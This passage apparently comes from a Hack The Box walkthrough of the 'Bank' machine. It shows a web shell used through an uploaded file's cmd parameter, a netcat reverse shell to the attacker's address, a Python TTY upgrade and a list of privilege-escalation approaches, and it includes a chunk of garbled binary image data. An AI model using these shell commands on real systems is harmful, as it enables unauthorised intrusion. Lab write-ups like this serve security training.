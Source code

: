 ```
-----------------------------10614131861911989917853390849--

```

Then we visit our uploaded file and we have code execution.

http://bank.htb/uploads/test.htb?cmd=id

```
‰PNG  IHDR,Zuv[‹tEXtSoftwareAdobe ImageReadyqÉe<fiTXtXML:com.adobe.xmp ÙZ†IDATxÚbüÿÿ?Ã`LdêûÅèbØØè <Ü\&„ÄgD“cD“Ãeù*4µhúÀr,ÂˆD3âÇ§—jQ 2,Í×ø|Ç@†Yûwñê³ =yöá?RšÀ*ÄDôˆC0WB1¼ÿð Lï9|»Mž^˜Z\(ñ,ÑñŸˆÄþMþ?ŒñŸ³`QÉŽ”Àg!)”B³t?”Þƒ-'á®¢Ž+Ÿ@Æ Ea9‘Ñ ˆÆÿO‚<`8ìß ‹ÁåÒÛ4y\–ãÐË€Ía¸ïÆ¢ù.µJ8BXy¸£ˆq0Ö•„ª£ÓD”IØÊ§U$”_èfíÆç( 6E«TŸ!å0|…êY¹ï?ÞÜKf¡‡ž`gâIÐÿÑ2¡t…} |âÃÐÂWÁ€ §Y7ž%®Ý‚æÃ¿ÿþG„Bê?PÄrÆøÌ‚å>”8þøé;+ËkNNV1¨Ð) 6£[öC¯¤qøTZÒ£‡˜‰*¡o"§™XÒÏ;•ð"Œ$È»bkÛªÄ¥n7µ» dˆÝÈ­jµ(]´ \Ä®Ä´p5úÊIÈ‰gHÌ©Dºï?BxH& ‰”¤øG²B6ËGÕø‰î ¢ß‚MN@Ÿ™ 8•RÓ_ž ÀÚg>¨-'Á\dµï)MY,dÒ+¨‡”€ø.”ÍL§œ`2˜³!R YBÙâPþ]*–U°”FT×ŸxÐIÍÀÂVÀc¼|ý™A\”Wöu¸S©583” x¬±

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Establish Foothold

The first thing I usually do when I have an initial foothold on a system is to upgrade our shell. This is because some tasks and exploits during our privesc phase may require a full TTY to work. Trust me, I have learned this the hard way.

We can use netcat to spawn a reverse shell back to us.

http://bank.htb/uploads/test.htb?cmd=nc%20-e%20/bin/sh%2010.10.14.9%201234

```
root@kali:~/htb/bank# nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.9] from bank.htb [10.10.10.29] 39756
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can then use Python to upgrade that shell to a tty:

```
python -c "import pty;pty.spawn('/bin/bash')"
www-data@bank:/var/www/bank/uploads$ 
```

## Privilege Escalation

A typical Linux privilege escalation method is based on one of the following:

1. Exploiting services running as root
2. Exploiting SUID executables
3. Exploiting SUDO rights/user
4. Exploiting badly configured cron jobs
5. Exploiting users with "." in their path
6. Kernel Exploits
